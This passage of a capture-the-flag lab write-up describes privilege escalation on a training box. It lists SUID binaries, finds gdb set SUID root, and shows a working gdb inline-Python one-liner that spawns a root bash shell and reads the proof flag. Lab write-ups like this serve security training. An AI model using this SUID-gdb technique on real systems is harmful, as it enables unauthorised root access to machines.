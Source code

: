## Privilege Escalation

Nothing seems to resolve from the box... so we can't easily use LinPEAS...

15) I try a bunch of things looking for a PE vector.

- No cronjobs as root (as defined in `/etc/crontab`)
- No to hashes to crack in /etc/passwd
- Looking for odd binaries with SUID:

```
gaara@Gaara:~$ ls -la /usr/bin | grep rws
-rwsr-xr-x  1 root root      54096 Jul 27  2018 chfn
-rwsr-xr-x  1 root root      44528 Jul 27  2018 chsh
-rwsr-xr-x  1 root root      34896 Apr 22  2020 fusermount
-rwsr-sr-x  1 root root    8008480 Oct 14  2019 gdb
-rwsr-sr-x  1 root root    7570720 Dec 24  2018 gimp-2.10
-rwsr-xr-x  1 root root      84016 Jul 27  2018 gpasswd
-rwsr-xr-x  1 root root      51280 Jan 10  2019 mount
-rwsr-xr-x  1 root root      44440 Jul 27  2018 newgrp
-rwsr-xr-x  1 root root      63736 Jul 27  2018 passwd
-rwsr-xr-x  1 root root      63568 Jan 10  2019 su
-rwsr-xr-x  1 root root     157192 Feb  2  2020 sudo
-rwsr-xr-x  1 root root      34888 Jan 10  2019 umount
```

I notice `gdb` and `gimp-2.10`, I'm betting we can start a shell from `gdb`...

16) After some research on how to run a command with `gdb` in-line (and of course, trial and error), I manage to get start a shell as root from `gdb`:

> The python keyword here is not invoking the Python interpreter directly, as you would from a command line with python or python -c. Instead, it's part of GDB's syntax to execute Python scripts within the GDB process. GDB has built-in support for Python scripting, allowing users to extend GDB's capabilities or automate certain tasks using Python.

> We ** have ** to use the gdb's built-in python capabilities. This is because securely designed setuid programs, including GDB when it's setuid root, often explicitly drop their elevated privileges before executing external commands or scripts. This is a security measure to prevent exactly this type of privilege escalation. This means that even though GDB itself might be running with root privileges, it intentionally lowers the privileges of the processes it spawns to match the original user's privileges, not root's.

```
gaara@Gaara:/$ gdb -ex 'python import os; os.execl("/bin/bash", "bash", "-p")'
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
bash-5.0# whoami
root
bash-5.0# ls -la /root | grep -e proof -e txt
-rw-------  1 root root   33 Mar  3 13:48 proof.txt
-rw-r--r--  1 root root   32 Apr 27  2021 root.txt
bash-5.0# cat root/proof.txt
0236ccbe1df5713594d11d4a1539ddb7
```